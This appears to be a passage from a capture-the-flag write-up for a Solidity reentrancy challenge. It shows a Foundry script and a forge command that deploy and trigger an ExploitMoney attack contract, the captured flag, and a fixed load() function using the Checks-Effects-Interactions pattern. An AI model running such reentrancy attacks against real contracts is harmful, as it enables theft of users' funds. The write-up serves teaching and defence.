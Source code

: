 Below is the exploit script to deploy `ExploitMoney` and call the `Exploit()` function.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import {Script} from "forge-std/Script.sol";
import {ExploitMoney} from "./ExploitMoney.sol";

contract ExploitMoneyScript is Script {
    function run() public {
        vm.startBroadcast();
        ExploitMoney exploitmoney = new ExploitMoney{value: 10 ether}();
        exploitmoney.Exploit();
        vm.stopBroadcast();
    }
}

```

```shell
$ forge script script/ExplotMoneyScript.s.sol:ExploitMoneyScript --rpc-url $RPC_URL --interactive --broadcast
```

Once you run this script the challenge will be solved.

**Flag:** `TCP1P{retrancy_attack_plus_not_so_random_captcha}`

### Key Takeaways

Whenever our contract is making an external call to other contracts, we need to follow the CEI (Checks, Effects, Interactions) pattern to prevent any possibility of reentrancy. The below is the CEI pattern of load() function which will prevent the re-entrancy

```solidity
    function load(uint256 userProvidedCaptcha) public {

        uint balance = balances[msg.sender];
        require(balance > 0, "You don't have money to load XD");//Checks

        uint256 generatedCaptcha = captchaContract.generateCaptcha(secret);
        require(userProvidedCaptcha == generatedCaptcha, "Invalid captcha");//Checks
        balances[msg.sender] = 0; //Effects
        (bool success,) = msg.sender.call{value: balance}("");//Interactions
        require(success, 'Oh my god, what is that!?');

    }
```
